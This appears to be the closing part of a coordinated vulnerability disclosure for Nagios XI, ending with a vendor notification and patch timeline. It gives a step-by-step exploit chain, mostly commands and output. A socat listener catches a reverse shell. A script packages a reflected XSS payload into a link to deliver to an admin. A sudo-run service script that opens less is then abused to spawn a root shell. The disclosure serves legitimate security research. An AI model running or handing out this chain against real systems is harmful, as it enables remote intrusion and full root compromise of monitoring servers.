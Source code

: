 <figure>
<img src="images/reverse_shell_to_root.png" style="width:90.0%" alt="Catching a reverse shell and escalating to root" /><figcaption aria-hidden="true">Catching a reverse shell and escalating to root</figcaption>
</figure>

```
# 1. Set up socat listener on the client to catch our reverse shell. Leave this
# terminal window open.
> socat file:`tty`,raw,echo=0 tcp-listen:22473

# 2. Edit the reverse shell payload so rev_shell_ip reflects the IP of your
# socat listener.
> vim xss_payloads_and_ssrf_tools/payloads/rev-shell-payload.js

# 3. Generate the Reflected XSS Payload
cd xss_payloads_and_ssrf_tools
python tools/package-payload.py payloads/rev-shell-payload.js --account \
  --host http://YOUR_NAGIOS_IP > link.txt

# 4. Open a browser and surf to the link written to stdout by the previous
# script or deliver the link in whatever manner you prefer. Login in as a Nagios
# admin user if you are prompted to do so.
> firefox `cat link.txt`

# 5. Return to the socat listener, which should have a connection, then perform
# the privesc via manage_services.sh. Using TERM=linux is optional but it silences
# a warning. Note that you type `!/bin/sh' while the service status text is
# displayed to invoke the command via `less', which is runing as root.
> whoami
www-data
> export TERM=linux
> sudo /usr/local/nagiosxi/scripts/manage_services.sh status nagios
* nagios.service - Nagios Core 4.4.6
   Loaded: loaded (/lib/systemd/system/nagios.service; enabled; vendor preset: e
   Active: active (running) since Mon 2021-09-13 07:58:26 PDT; 1h 16min ago
     Docs: https://www.nagios.org/documentation
  Process: 1764 ExecStart=/usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/
  Process: 1761 ExecStartPre=/usr/local/nagios/bin/nagios -v /usr/local/nagios/e
 Main PID: 1765 (nagios)
    Tasks: 8 (limit: 9461)
   CGroup: /system.slice/nagios.service
           |-1765 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.c
           |-1766 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1767 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1768 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1769 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1770 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           |-1771 /usr/local/nagios/bin/nagios --worker /usr/local/nagios/var/rw
           `-1920 /usr/local/nagios/bin/nagios -d /usr/local/nagios/etc/nagios.c
> !/bin/sh
# 
> whoami
root
```

# Timeline

-   09/13/2021 - Notified vendor

-   09/13/2021 - Vendor acknowledged disclosure

-   11/02/2021 - New versions of software released with patches

-   11/02/2021 - NotQuite0DayFriday release

-   11/02/2021 - Blog post release